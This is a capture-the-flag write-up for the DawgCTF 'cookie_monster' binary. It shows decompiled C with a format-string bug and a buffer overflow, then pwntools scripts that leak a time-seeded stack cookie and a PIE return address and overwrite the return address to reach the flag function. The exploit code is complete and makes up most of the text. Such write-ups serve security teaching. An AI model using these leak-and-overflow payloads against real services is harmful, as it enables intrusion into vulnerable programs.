 Main call `conversation()`:
```c
__int64 conversation()
{
  unsigned int v0; // eax
  int v1; // eax
  char v3; // [rsp+Fh] [rbp-11h]
  char s; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+1Ch] [rbp-4h]

  v0 = time(0LL);
  srand(v0);
  v1 = rand();
  v5 = v1;
  saved_cookie = v1;
  puts("\nOh hello there, what's your name?");
  fgets(&s, 8, _bss_start);
  printf("Hello, ", 8LL);
  printf(&s);
  puts("\nWould you like a cookie?");
  gets(&v3);
  return check_cookie(v5);
}
```

There is a format string vuln on first input and a buffer overflow on second input. 
We need to bypass cookie (canary) and jump into flag function.

Checksec:
```
[*] '/home/marco/Desktop/umbccd/cookie_monster/cookie_monster'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Since there is PIE we need to use the format string to leak the ret address (main+24) and use it to retrive flag function address.
The canary is a random number wich is bad generated. 
So the intended solution is to generate the same number executing the program in the same moment.
(code from https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/cookie_monster/cookie_sol.py):

```python
import ctypes

LIBC = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

#srand on the current time to get same seed as server
LIBC.srand(LIBC.time(0))
cookie = p32(LIBC.rand())
```

MY solution:

I noticed the random number changes every second. So if we open 2 connections with 2 different programs we obtain the same number. 
We can use the first program to leak the canary, pass to the second program and use the second program to leak the address and get the flag.

Exploit:
```python
#!/usr/bin/python3.8
from pwn import *
import subprocess

r = remote('ctf.umbccd.io', 4200)
#r = process('./cookie_monster')

s = subprocess.Popen(['./leaker.py'], shell=True, stdout=subprocess.PIPE).stdout.read()
s = int(s.decode().split('\n')[3], 16)

print(r.recvuntil('?').decode())
r.sendline('%11$p')
print(r.recvuntil('Hello, ').decode())
mn = r.recv(16)
main24 = int(mn, 16)
flag = (main24-0x19a)

print('leaked cookie: ', hex(s))
print('leaked main+24: ', hex(main24), ' current flag address: ', hex(flag))


print(r.recvuntil('?\n').decode())

payload = (('A'*13).encode())
payload += p32(s)
payload += (('A'*8).encode())
payload += p64(flag)
r.sendline(payload)
print(r.recvall().decode())
#r.interactive()
```

leaker program:
```python
#!/usr/bin/python3.8
from pwn import *

p = remote('ctf.umbccd.io', 4200)
#p = process('./cookie_monster')

p.recvuntil('?')
p.sendline('%9$lx')
p.recvuntil('Hello, ')
cookie = int(p.recv(8), 16)
print(hex(cookie), "\n")
p.close()
```

# FLAG
`DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}`

